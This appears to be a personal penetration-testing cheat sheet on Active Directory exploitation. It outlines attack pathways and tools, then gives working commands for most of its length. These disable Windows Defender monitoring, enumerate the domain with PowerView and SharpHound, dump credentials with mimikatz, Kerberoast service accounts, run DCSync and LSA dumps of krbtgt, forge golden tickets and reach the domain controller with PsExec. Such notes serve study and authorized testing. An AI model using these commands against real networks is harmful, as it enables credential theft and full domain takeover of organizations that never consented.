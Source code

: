 # Active Directory Exploitation

---

[Back to Table of Contents](../cysec)

># Overview
 - Overview
 - Enumeration and Exploitation Tools
 - Genera Exploitation Pathway Examples

---
## AD: General Pathways

A few of the many exploitation pathways:
 - Exploiting a web-app --> lateral movement throughout the network --> domain compromise
 - Exploiting a network/service vulnerability --> lateral movement throughout the network --> domain compromise
 - Exploiting a client-side attack to compromise a user --> later movement --> domain compromise
 - Direct domain compromise and subsequent downstream lateral movement (although machines 
 in which this path was observed were substantially less realistic in my opinion)

---
## AD: Enumeration and Assessment

After gaining access to a machine within an AD network, it is essential to enumerate the environment and
understand the network, the domain, the machines within it, and where the compromised machine stands in relation
to the environment (permissions, groups, routes to admin, etc.).

Enumeration of AD can be done in various ways and many tools exist. Among them, some of the most popular and useful include sharphound/bloodhound, 
powerview, impacket, and of course, powershell.

---
## Useful Resources:
https://wadcoms.github.io/

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

---
## Tools
- ldapmonitor
- rubeus
- kerbrute
- impacket tools
- powerview
- sharphound
- bloodhound
- mimikatz
- pypykatz
- winpeas / windows privescheck

---

### Powerview

Disable Monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Get Domain Info
```
Get-Domain
Get-DomainController
Get-Domain -Domain domain.local
Get-DomainController -Domain domain.local
Get-DomainUser
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."SystemAccess"
Invoke-ShareFinder
Invoke-MapDomainTrust
```
---
### Common Privilege Escalation Methods
Overview:
- Generally revolves around results from enumeration regarding user privileges and misconfigurations. Enumeration also extends to system data which can also result in kernel exploits, just as with Linux.
Some common vectors include:
- SeImpersonate.. --> juicy potato or lovely potato (automated powershell implementation)
- UACBypass --> accesschk.exe, psexec64.exe
- Hash/password dumping


---

### Using Bloodhound
File transfer --> download sharphound --> exfiltrate the data --> view data in bloodhound
--> identify valuable accounts or pathways within the domain --> use relevant tools to try to exploit those accounts
and move laterally

```powershell
.\sharphound.exe -c Default, GPOLocalGroup, LoggedOn --zipfilename output
```
---
Use mimikatz to find vulnerable accounts with weak passwords to be used for further exploitation:
```powershell
privilege::debug

sekurlsa::logonPasswords
 ```
---
## Pass the Ticket Example

Identify service principals:
 - Get-UserSPNs.ps1

Request ticket for vulnerable SPN (this can be done with mimikatz or via powershell):

powershell method:
```
Add-Type –AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘SPN'
```
GetUserSPNs.ps1:
```
.\GetUserSPNs.ps1
```

mimikatz method:
```
kerberos::ask /target:spn_name
```
Obtain the domain SID:
```
whoami /user
--> domain SID = user SID - last 4 numbers

```
Dump the ticket and use it either crack the hash or as a means to facilitate a pass the ticket attack. 
Dumping the tickets:
```powershell

kerberos::list /export

lsaDump::dcsync /user:krbtgt

lsadump::lsa /inject /name:krbtgt
```
Golden (silver) ticket creation):
```
kerberos::golden /domain:domain.com /sid:xxxxxxxxx-xxxxxxxxxx /rc4:xxxxx /user:fake_admin /id:500 /ptt
```

Accessing the DC with Admin privileges:

```
PsExec64.exe \\domain-dc01\ cmd.exe 
```
Or:
```
pushd \\domain-dc01\c$
cd \\domain-dc01\c$
```
Cracking the tickets:
a) Exfiltrate the kirbi files
b) use tgsrepcrack.py or kirbi2john --> john to attempt to crack the tickets --> use cracked password for authentication on servers where SPN is present
